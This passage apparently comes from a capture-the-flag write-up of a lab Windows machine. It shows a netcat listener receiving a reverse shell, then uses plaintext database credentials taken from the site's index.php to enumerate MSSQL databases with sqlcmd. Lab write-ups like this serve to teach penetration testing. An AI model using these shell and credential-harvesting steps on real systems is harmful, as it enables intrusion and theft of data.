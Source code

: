 We have a remote shell!

```bash
$ sudo nc -nlvp 4321
[sudo] password for ax: 
listening on [any] 4321 ...
connect to [10.10.14.101] from (UNKNOWN) [10.129.207.221] 49727
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\streamio.htb\admin>
```

# Initial Access

In a real-world scenario, adversaries may search network shares on computers they have compromised to find files of interest. Sensitive data can be collected from remote systems via shared network drives. With our current shell, let's see if we can find something interesting.

## Playing with MSSQL

After looking around for a while, we decided to take a look at the database as we previously found DB credentials (`db_admin:B1@hx31234567890`) in **index.php**. Note that you should upgrade your shell to PowerShell to avoid any issues when connecting to the DB.

```bash
C:\inetpub\streamio.htb\admin>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\streamio.htb\admin> sqlcmd -S '(local)' -U db_admin -P 'B1@hx31234567890' -Q 'SELECT DB_NAME(); SELECT name FROM master..sysdatabases;'
sqlcmd -S '(local)' -U db_admin -P 'B1@hx31234567890' -Q 'SELECT DB_NAME(); SELECT name FROM master..sysdatabases;'
                                                                                                                                
--------------------------------------------------------------------------------------------------------------------------------
master                                                                                                                          

(1 rows affected)
name                                                                                                                            
--------------------------------------------------------------------------------------------------------------------------------
master                                                                                                                          
tempdb                                                                                                                          
model                                                                                                                           
msdb                                                                                                                            
STREAMIO                                                                                                                        
streamio_backup                                                                                                                 

(6 rows affected)
```
